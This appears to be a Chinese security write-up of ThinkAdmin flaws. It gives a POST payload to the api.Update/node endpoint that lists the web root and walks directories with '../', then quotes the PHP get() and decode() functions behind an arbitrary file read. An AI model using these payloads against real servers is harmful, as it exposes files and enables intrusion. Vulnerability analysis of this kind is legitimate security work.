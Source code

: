 读取网站根目录Payload: [http://think.admin/ThinkAdmin/public/admin.html?s=admin/api.Update/node](http://think.admin/ThinkAdmin/public/admin.html?s=admin/api.Update/node)

POST:

```
rules=["/"]
```

也可以使用`../`来进行目录穿越

```
rules=["../../../"]
```

演示站：

![](https://cdn.wtfsec.org/img/20200827165022.png)

## 任意文件读取

`get()`：

```php
/**
 * 读取文件内容
 */
public function get()
{
    $filename = decode(input('encode', '0'));
    if (!ModuleService::instance()->checkAllowDownload($filename)) {
        $this->error('下载的文件不在认证规则中！');
    }
    if (file_exists($realname = $this->app->getRootPath() . $filename)) {
        $this->success('读取文件内容成功！', [
            'content' => base64_encode(file_get_contents($realname)),
        ]);
    } else {
        $this->error('读取文件内容失败！');
    }
}
```

首先从GET读取`encode`参数并使用`decode()`解码：

```php
/**
 * 解密 UTF8 字符串
 * @param string $content
 * @return string
 */
function decode($content)
{
    $chars = '';
    foreach (str_split($content, 2) as $char) {
        $chars .= chr(intval(base_convert($char, 36, 10)));
    }
    return iconv('GBK//TRANSLIT', 'UTF-8', $chars);
}
```
